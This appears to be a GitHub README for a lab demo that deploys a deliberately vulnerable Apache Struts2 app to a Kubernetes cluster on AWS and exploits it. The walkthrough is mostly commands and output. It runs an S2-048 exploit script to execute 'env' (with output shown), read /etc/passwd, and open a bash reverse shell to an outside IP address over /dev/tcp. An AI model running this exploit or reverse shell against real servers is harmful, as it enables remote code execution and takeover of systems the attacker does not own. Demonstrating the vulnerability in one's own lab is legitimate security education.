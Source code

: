# struts_poc  
![image](https://user-images.githubusercontent.com/4404271/153259381-52907b2b-ab78-4699-bde6-0cf7b35393a8.png)

## This is nothing more than the Kali struts poc shown in a cluster. Simple.  Scroll down for a tldr GIF.  
  

git clone https://github.com/hook-s3c/apache-struts2-PoC  
cd apache-struts2-PoC/  
docker build -t struts .  
docker run -it --rm -d -p 8080:8080 struts:latest  
docker tag struts:latest public.ecr.aws/v9f6i2g3/stuff:latest  
#public login to us-west-2 not supported by aws  
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws  
docker push public.ecr.aws/v9f6i2g3/stuff:latest  
kubectl apply -f strust-deploy-and-service.yaml  
ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC  
  

kubectl get service -n struts  
NAME     TYPE           CLUSTER-IP       EXTERNAL-IP                                                              PORT(S)          AGE  
`struts   LoadBalancer   10.100.144.108   a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com   8080:30524/TCP   153m` 
  

ubuntu@brett-jumpbox:myhomedir/apache-struts2-PoC python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'env'  
KUBERNETES_SERVICE_PORT_HTTPS=443  
KUBERNETES_SERVICE_PORT=443  
STRUTS_PORT_8080_TCP_PORT=8080  
STRUTS_SERVICE_PORT=8080  
HOSTNAME=struts-7d8c95bbbd-9p9pp  
JAVA_HOME=/usr/local/openjdk-8  
GPG_KEYS=05AB33110949707C93A279E3D3EFE6B686867BA6 07E48665A34DCAFAE522E5E6266191C37C037D42 47309207D818FFD8DCD3F83F1931D684307A10A5  
etc..  
  
     
ubuntu@brett-jumpbox:~/apache-struts2-PoC$  
curl 127.0.0.1:8080/showcase.action -v  
#python3 -m venv .  
python exploitS2-048-cmd.py 127.0.0.1:8080 'cat /etc/passwd'  

`python exploitS2-048-cmd.py a3dc6544a26b64b7cbe1610fd1714538-870897122.us-west-2.elb.amazonaws.com:8080 'bash -i >& /dev/tcp/52.206.9.54/4242 0>&1'`


![struts_rs](https://user-images.githubusercontent.com/4404271/153033823-b0d10a6b-4faa-4f0e-b8d1-8dde69cf1562.gif)


